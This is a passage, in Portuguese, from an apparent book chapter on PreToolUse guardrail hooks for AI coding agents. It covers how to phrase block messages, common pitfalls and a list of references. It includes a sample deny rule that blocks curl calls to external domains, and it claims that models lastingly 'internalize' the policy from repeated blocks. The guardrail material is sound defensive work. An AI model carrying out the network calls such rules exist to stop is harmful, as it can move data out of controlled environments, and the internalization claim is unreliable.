A fórmula da mensagem eficaz tem três partes: o fato (o que foi bloqueado), o motivo (a regra violada) e a orientação (o que fazer em vez disso). "BLOQUEADO: curl para domínio externo. Política de rede deny-by-default. Use o proxy corporativo via GIT_SSL_CERT ou o endpoint aprovado api.corp.com." — o modelo recebe o fato, entende o motivo e age sobre a orientação. Compare com "comando negado" — o modelo fica sem informação e a tentativa seguinte é um tiro no escuro [2].

A mesma psicologia vale para a reescrita: quando o guardrail corrige o comando e devolve via updatedInput, o modelo percebe o padrão aprovado e tende a propô-lo diretamente nas próximas vezes. O guardrail não é apenas uma fechadura — é um treinador. E o treinamento é contínuo: cada bloqueio bem comunicado reduz a probabilidade do próximo bloqueio, porque o modelo internaliza a política. É o efeito colateral mais valioso da arte do bloqueio: a política não só protege — ela educa, e o agente vira progressivamente mais alinhado com o corredor aprovado.

### Armadilhas comuns

- **Bloqueio mudo:** exit 2 sem stderr quebra o loop — o modelo repete a tentativa e frustra o time.
- **Bloquear o que deveria reescrever:** intenção legítima merece updatedInput, não bloqueio puro.
- **Ask para tudo:** elevar tudo a humano cansa o operador e o faz aprovar por inércia — a aprovação vira teatro.
- **Guardrail sem registro:** uma decisão não registrada não pode ser auditada; sempre logue no canal de registro.

## 6. Conclusão

Você dominou o PreToolUse e a arte do bloqueio: o canal duplo de resposta — exit codes e JSON refinado — e a paleta de três decisões — deny com explicação, ask para o humano e reescrita via updatedInput. Construiu guardrails reais de secrets, de operações git destrutivas e de reescrita de comandos, e montou a auto-validação que prova cada comportamento antes de produção.

Desafio: escolha um comando do seu fluxo diário que hoje é perigoso na forma e escreva um guardrail que o *reescreve* em vez de bloquear. No Capítulo 7, você sobe de nível: do bloqueio individual para o modelo de ameaças — o mapa completo do que um agente autônomo pode sofrer e causar, segundo OWASP e MITRE ATLAS.

## 7. Referências Bibliográficas

[1] ANTHROPIC. *Hooks Guide*. Disponível em: https://code.claude.com/docs/en/hooks-guide. Acesso em: 06 ago. 2026.
[2] ANTHROPIC. *Hooks Reference*. Disponível em: https://code.claude.com/docs/en/hooks. Acesso em: 06 ago. 2026.
[3] ANTHROPIC. *Settings Reference*. Disponível em: https://code.claude.com/docs/en/settings. Acesso em: 06 ago. 2026.
[4] ANTHROPIC. *Configure Permissions*. Disponível em: https://code.claude.com/docs/en/permissions. Acesso em: 06 ago. 2026.
[5] ANTHROPIC. *Enterprise Admin Setup*. Disponível em: https://code.claude.com/docs/en/admin-setup. Acesso em: 06 ago. 2026.
[6] ANTHROPIC. *Access Audit Logs*. Disponível em: https://support.claude.com/en/articles/9970975-access-audit-logs. Acesso em: 06 ago. 2026.
[7] OWASP. *Top 10 for LLM Applications*. Disponível em: https://genai.owasp.org/. Acesso em: 06 ago. 2026.
[8] OWASP. *Top 10 for Agentic Applications*. Disponível em: https://genai.owasp.org/. Acesso em: 06 ago. 2026.
[9] MITRE. *ATLAS — Adversarial Threat Landscape for Artificial-Intelligence Systems*. Disponível em: https://atlas.mitre.org/. Acesso em: 06 ago. 2026.
[10] CLOUD SECURITY ALLIANCE. *MAESTRO & Agentic Threat Research*. Disponível em: https://labs.cloudsecurityalliance.org/agentic/csa-research-note-atlas-agentic-gap-analysis-20260327/. Acesso em: 06 ago. 2026.
[11] CLOUD SECURITY ALLIANCE. *Security Guidance for Critical Areas of Focus in Cloud Computing*. Disponível em: https://cloudsecurityalliance.org/. Acesso em: 06 ago. 2026.
[12] NIST. *AI Risk Management Framework (AI RMF 1.0)*. Disponível em: https://www.nist.gov/itl/ai-risk-management-framework. Acesso em: 06 ago. 2026.
[13] ISO. *ISO/IEC 42001:2023 — Information technology — Artificial intelligence — Management system*. Disponível em: https://www.iso.org/standard/81230.html. Acesso em: 06 ago. 2026.
[14] EUROPEAN UNION. *Regulation (EU) 2024/1689 (EU AI Act)*. Disponível em: https://eur-lex.europa.eu/eli/reg/2024/1689/oj. Acesso em: 06 ago. 2026.
[15] CYCODE. *OWASP Top 10 for Agentic Applications 2026 Explained*. Disponível em: https://cycode.com/blog/owasp-top-10-agentic-applications/. Acesso em: 06 ago. 2026.
[16] AUTH0. *Lessons from OWASP Top 10 for Agentic Applications: Least Privilege to Least Agency*. Disponível em: https://auth0.com/blog/owasp-top-10-agentic-applications-lessons/. Acesso em: 06 ago. 2026.
[17] MODULOS. *OWASP Top 10 for Agentic Applications (2026) Governance Guide*. Disponível em: https://docs.modulos.ai/frameworks/owasp-top-10-agentic/. Acesso em: 06 ago. 2026.
[18] GITHUB. *Adding repository custom instructions for GitHub Copilot*. Disponível em: https://docs.github.com/copilot/customizing-copilot/adding-custom-instructions-for-github-copilot. Acesso em: 06 ago. 2026.
[19] GITHUB. *AGENTS.md file for GitHub Copilot*. Disponível em: https://docs.github.com/copilot/customizing-copilot/adding-custom-instructions-for-github-copilot. Acesso em: 06 ago. 2026.
[20] DEVIAN. *Windsurf Cascade Hooks*. Disponível em: https://docs.devin.ai/desktop/cascade/hooks. Acesso em: 06 ago. 2026.
[21] ROO CODE. *Auto-Approving Actions*. Disponível em: https://roocodeinc.github.io/Roo-Code/features/auto-approving-actions/. Acesso em: 06 ago. 2026.
[22] OPENCODE. *OpenCode Configuration*. Disponível em: https://opencode.ai/docs/config/. Acesso em: 06 ago. 2026.
[23] ANTHROPIC. *Claude Code on GitHub*. Disponível em: https://github.com/anthropics/claude-code. Acesso em: 06 ago. 2026.
[24] ANTHROPIC. *Model Context Protocol Documentation*. Disponível em: https://modelcontextprotocol.io/. Acesso em: 06 ago. 2026.
[25] GOOGLE. *gVisor — Application Kernel for Containers*. Disponível em: https://gvisor.dev/. Acesso em: 06 ago. 2026.
[26] DOCKER. *Docker security best practices*. Disponível em: https://docs.docker.com/engine/security/. Acesso em: 06 ago. 2026.
[27] OWASP. *Prompt Injection — OWASP Cheat Sheet*. Disponível em: https://cheatsheetseries.owasp.org/cheatsheets/Prompt_Injection_Cheat_Sheet.html. Acesso em: 06 ago. 2026.
[28] OWASP. *LLM Tool Poisoning — OWASP Top 10 for LLM Applications*. Disponível em: https://genai.owasp.org/. Acesso em: 06 ago. 2026.
[29] CURSOR. *Rules Documentation*. Disponível em: https://cursor.com/docs/context/rules. Acesso em: 06 ago. 2026.
[30] CLINE. *Cline VS Code Extension*. Disponível em: https://github.com/cline/cline. Acesso em: 06 ago. 2026.
